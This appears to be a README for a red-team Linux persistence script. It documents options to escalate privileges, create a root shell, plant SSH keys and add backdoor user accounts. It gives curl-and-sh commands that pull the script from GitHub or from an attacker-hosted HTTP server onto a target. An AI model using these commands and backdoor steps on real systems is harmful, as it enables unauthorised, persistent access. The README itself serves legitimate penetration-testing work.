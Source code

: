 # Persistence Phase

Definition...  

Available parts:
- Elevate privileges
- Create a root shell
- Modify ssh keys
- Create local user

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/lin-persistence.sh
sh lin-persistence.sh -h
```
```sh
# Local network
# Host:
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target:
curl -LJO <Host>:8000/lin-persistence.sh
sh lin-persistence.sh -h
```

### Parameters
```sh
sh lin-persistence.sh -h

Usage: sh lin-persistence.sh [-h] [-e] [-r] [-s] [-u] [-p]

-e <username>
  Elevate privileges of the given user
  Root needed!

-r
  Create a root shell
  Root needed!

-s <ssh public key / content of id_rsa.pub>
  Trying to add ssh public key to authorized_keys of current user

-u <username>
  Add a local account/user
  Root needed!

-p <password>
  Set this password to new user
  Only useful in combination with -u parameter
  Root needed!
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 